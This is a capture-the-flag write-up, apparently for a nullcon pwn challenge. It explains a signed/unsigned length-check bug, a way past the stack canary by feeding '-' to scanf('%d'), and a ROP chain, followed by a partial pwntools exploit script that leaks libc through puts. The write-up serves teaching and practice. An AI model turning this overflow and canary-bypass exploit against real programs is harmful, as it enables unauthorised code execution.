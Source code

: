 The check regard variable `uint8` as an `signed char` but it will be used as
`unsigned char` later, so the value `> 0x7f` will pass the check and cause the
stack overflow.

However, there is canary so we need to bypass this, but we cannot leak it
since vulnerable `printf` is after this stack overflow. The key thing is there
is no check against the return value of `scanf`, so we can let `scanf` to have
some error so that `&v10[4 * i]` will not be rewritten and canary will remain
unchanged. Then after we jump over the canary we can rewrite the return
address and construct ROP chain. But how to make it have error? Initially I
tried `"a"(any letter)`, but this fails, because even if the `scanf` returns
with error in this iteration, it will also return directly with error later on
without receiving any input so we cannot rewrite return address. It seems that
the reason is that `"a"` does not comply the format `"%d"` so it will never be
consumed by this `scanf("%d")`. So can we input something that satisfy format
`"%d"` but still cause the error? I then came up with `"-"`, because `"%d"`
allows negative number so the negative sign should be fine, but a single
negative sign does not make any sense as a number so it will cause error. Then
it works!

Finally the things became easy, just regard this as a normal stack overflow
challenge, and I did not use that format string vulnerability

By the way, the `libc` version can be found by using format string
vulnerability to leak address in `got` table, and search it in the `libc-
database`

```python  
from pwn import *  
import json  
g_local=True  
context.log_level='debug'  
p = ELF('./challenge')  
e = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")  
ONE_GADGET_OFF = 0x4526a  
if g_local:  
	sh = process('./challenge')#env={'LD_PRELOAD':'./libc.so.6'}  
	gdb.attach(sh)  
else:  
	sh = remote("pwn.ctf.nullcon.net", 4001)

POP_RDI = p64(0x400a43)  
def exploit_main(rop):  
	sh.recvuntil("tressure box?\r\n")  
	sh.sendline('y')  
	sh.recvuntil("name: ")  
	sh.sendline("2019")  
	sh.recvuntil("do you have?\r\n")  
	sh.sendline("128")

	for i in xrange(0,22):  
		sh.sendline(str(i))  
	for i in xrange(2):  
		sh.sendline('-') #bypass canary  
		sleep(1)  
	for i in xrange(0,len(rop),4):  
		sh.sendline(str(u32(rop[i:i+4])))  
	for i in xrange(0,128-22-2-len(rop)/4):  
		sh.sendline("0")  
	sh.recvuntil("created!\r\n")

rop = ""  
rop += p64(0)  
rop += POP_RDI  
rop += p64(p.got["puts"])  
rop += p64(p.plt["puts"])  
```